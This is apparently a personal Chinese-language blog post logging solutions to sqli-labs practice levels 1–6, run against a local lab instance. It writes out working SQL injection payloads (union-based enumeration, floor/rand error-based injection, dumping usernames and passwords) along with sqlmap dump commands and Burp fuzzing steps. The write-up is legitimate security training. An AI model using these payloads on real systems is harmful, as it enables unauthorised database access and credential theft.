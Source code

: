 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      sqli-labs做题记录               # 标题 
subtitle:   Basic Challenges #副标题
date:       2019-08-15              # 时间
author:     Von                      # 作者
header-img: img/post-bg-mma-5.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SQL

---
```


# 前言
这几天也算是为了记录自己的成长过程来更新sqli-labs的做题记录。不知道能不能更完，毕竟总共有75关。不管怎么样，努力做到不咕吧。  
受限于篇幅设置，我对于每一关的原理肯定没有办法讲得特别详细，但我会尽量讲得通俗易懂，并且给出相应的参考文章。  
同时，对于类型相同的题目，我尽量给出不同的解法，来充实，提高自己。  

# Less-1

这题的考点是union联合查询注入。
对于这种类型，我推荐小白可以去看看这两篇文章。  
[文章1](https://zhuanlan.zhihu.com/p/22397455)      [文章2](https://zhuanlan.zhihu.com/p/22397620)   
我们先来判断注入类型。  
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' and 1=2 --+
```
经这两者判断，第一种传入网站显示正常，第二种传入网站显示不正常。可以看出我们的语句已经被执行。因此说明是单引号类型注入。
先判断字段数。依次递增order by 后面的数值。
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 2 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 3 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1' order by 4 --+
```
发现3时不报错,而4时报错，所以字段数是3。  
接下来用联合查询判断显示位。首先我们要让id变成一个不存在的值以便显示出来的值都是union语句执行的结果。在这里我们使用100。
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,3 --+
```
![](http://VonLYC.github.io/img/blog9-1.png)
可以看出,显示位为2和3。接下来便是常规操作：
```
爆库:http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,database() --+
爆表:http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
爆字段:http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' --+
爆值:http://127.0.0.1/sqli-labs-master/Less-1/?id=100' union select 1,2,group_concat(username,0x3a,password,0x3c2f62723e) from security.users --+
```
至此，一次sql注入便完成了。

# Less-2
这道题和上面那道其实很类似。
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1 and 1=1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1 and 1=2 --+
```
第一种传入网站显示正常，第二种传入网站显示不正常。可以看出我们的语句已经被执行。因此说明是数值类型注入。  
之后的注入类型与Less-1雷同(仅需把单引号去掉而已)。不再赘述。

# Less-3
我们先传入id=1',可以得到这样的报错信息。
```
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1 
```
![](http://VonLYC.github.io/img/blog9-2.png)
由此看出，我们需要闭合').
```
http://127.0.0.1/sqli-labs-master/Less-1/?id=1') and 1=1 --+
http://127.0.0.1/sqli-labs-master/Less-1/?id=1') and 1=2 --+
```
经同上面的判断，可以看出代码已被执行。之后的注入过程雷同Less-1.

# Less-4
我们传入id=1"，可以得到这样的报错信息。
```
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1  
```
![](http://VonLYC.github.io/img/blog9-3.png)
由此看出，我们需要闭合")。之后的过程类似Less-1.

---
由此看出，这四题主要区别就是在闭合符号的区别，实际应用中我们一方面可以通过报错信息来判断需要闭合的符号。也可以采用burp suite跑字典来进行Fuzz。

# Less-5
经过测试，该题没有显示位。故不能再使用union联合注入。应该考虑布尔盲注，延时注入和报错注入。由于此题存在报错反馈，于是我们采取报错注入。关于报错注入，可以看看我的这篇博客  [网址](http://www.v0n.top/2019/08/12/SQL%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/)  

```
爆库:http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((database()),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
```
需要注意的是，输出的结果末端带有一个1，这个1是floor报错语句中输出的也一部分（无论输出什么结果，都会有这个1）。我们无视它就可以了。
```
爆表:http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database()),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
```
在爆表的过程中发现它会爆出错误。
![](http://VonLYC.github.io/img/blog9-4.png)
这里发现页面提示我输出信息超过一行，所以我们要采用limit语句来控制输出。于是有：
```
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 1,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 2,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 3,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
```
```
爆字段:http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
爆值:http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and (select 1 from (select count(*),concat((select concat(username,0x3a,password) from security.users limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a)--+
根据limit不断递增即可得到全部值。
```
这道题也可以采用布尔盲注(当然延时注入也可以，只不过延时注入我觉得比较高级一些，在下面的题目再讲）
布尔盲注是通过界面的变化来判断语句的执行结果(例如本题的you are in)。但是纯手工注入一般极其耗时(我当时有一次注了一个小时还没注完)  
因此我们一般使用python脚本/burp suite/sqlmap来进行注入。  
我在这里演示一种最简单的sqlmap法(懒。。。。）  
```
判断能否注入:python2 sqlmap.py -u  "http://127.0.0.1/sqli-labs-master/Less-5/?id=1"
```
![](http://VonLYC.github.io/img/blog9-5.png)
从图片可以看出，这里是存在注入的。
```
爆库:python2 sqlmap.py -u  "http://127.0.0.1/sqli-labs-master/Less-5/?id=1" --dbs
爆表:python2 sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-5/?id=1" -D security --tables
爆字段:python2 sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-5/?id=1" -D security -T users --columns
爆值:python2 sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-5/?id=1" -D security -T users -C username,password --dump
```
不得不说，虽然成为一名脚本小子不是我的本意，但是像sqlmap这样的软件还是大大提高了测试的效率(真香。。。)

# Less-6
该题和Less-5几乎一样，唯一的区别就在于闭合符号的不同。在这里我演示一下利用burp suite进行Fuzz的过程。  
我们先将传入的'设置为负载点。  
![](http://VonLYC.github.io/img/blog9-6.png)
再添加burp suite自带的sqli Fuzz字典。(当然字典也可以自己添加,GitHub上一大堆)  
![](http://VonLYC.github.io/img/blog9-7.png)
从攻击返回的测试结果中我们可以发现传入的参数为"时报错，也就说明我们需要闭合"。
![](http://VonLYC.github.io/img/blog9-8.png)
之后的注入过程便雷同Less-5了。












